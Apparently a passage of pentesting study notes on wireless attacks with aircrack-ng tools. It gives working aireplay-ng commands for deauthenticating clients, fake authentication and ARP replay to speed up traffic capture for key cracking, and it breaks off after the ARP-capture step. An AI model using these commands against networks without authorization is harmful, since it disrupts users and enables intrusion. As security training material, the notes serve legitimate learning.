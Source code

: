 Two columns:
```
**#Data** and **#/s**
you want high values For these columns in order to succeed.
Data = number of data frames collected
**#/s** = data frames capture rate as frames per second
```

### Deauthentication Attack

- When deauthenticated from a wireless network, normally a client will just try to re-authenticate shortly later.
- There is a management frame For this purpose; this is sent completely unencrypted and requires no authentication from the sender.

```
aireplay-ng -0 10 -c <client_mac> -a <bssid> <intf>
```

- This will increase the data frames we gather. (#Data column)
- Deauthentication attacks force the victim to actually disconnect from the network. If you abuse this technique, chances are that your attack will be notice! So keep this in mind when pentesting a real-world wireless network.

### ARP Replay Attack

- A very famous technique to generate a lot of useful traffic on a wireless network is the ARP replay attack
- Given that the traffic is encrypted, how can the attacker actually identify an ARP request?

```
luckily, ARP requests have a fixed payload size (36 bytes) so they can be easily identified. 
They always have a broadcast destination address (FF:FF:FF:FF:FF:FF) that is transmitted in plain text in the frame header.
```

- Steps:

1. Associate with the AP
```
aireplay-ng -1 15 -a <bssid> -e <ssid> <intf>
```
// This will associate your adapter to the specified network. You have to provide both BSSID and SSID. The -1 stands For fake authentication while the number on the right is the delay between authentication attempts.

// If you receives deauthentication messages from the victim AP constantly. You can try this variation:
```
aireplay-ng -1 6000 -q 10 -o 1 -a <bssid> -e <ssid> <intf>
```

// -q 10 = enable keep-alive packets every 10 seconds to maintain the authentication status
// -o 1 = forces aireplay to send one set of packets at a time.
// do not close the windows, the aireplay must be running while performing the attack

2. Listen to ARP requests
```
aireplay-ng -3 -b <bssid> <intf>
```
// The aireplay is saving ARP requests to a file.
// The next time you will not need to wait again For ARP requests.
